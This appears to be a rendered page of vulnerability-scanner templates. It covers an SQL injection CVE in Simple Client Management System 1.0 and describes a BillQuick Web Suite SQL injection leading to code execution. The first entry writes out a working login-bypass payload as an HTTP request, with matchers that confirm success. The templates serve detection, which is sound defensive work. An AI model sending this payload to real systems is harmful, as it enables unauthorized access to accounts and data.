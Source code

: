 # Simple Client Management System 1.0 - SQL Injection

## Description

- SQL Injection vulnerability exists in Sourcecodester Simple Client Management System 1.0 via the username field in login.php.

- severity - critical
- tags - cve,cve2021,simpleclientmanagement,sqli,auth-bypass

## Requests

### Step - 1

```
POST /classes/Login.php?f=login HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin'+or+'1'%3d'1'--+-&password=as

```

### Step - 2

```
GET / HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

```

### Matchers

**Type - dsl**

- dsl
  1. contains(all_headers_1, "text/html")
  2. status_code_1 == 200
  3. contains(body_1, "{\"status\":\"success\"}")
  4. contains(body_2, "Welcome to Simple Client")
- condition - and

---

# BillQuick Web Suite SQL Injection

## Description

- BQE BillQuick Web Suite 2018 through 2021 before 22.0.9.1 allows SQL injection for unauthenticated remote code execution. Successful exploitation can include the ability to execute arbitrary code as MSSQLSERVER$ via xp_cmdshell.
- severity - critical
- tags - cve,cve2021,sqli,billquick,kev
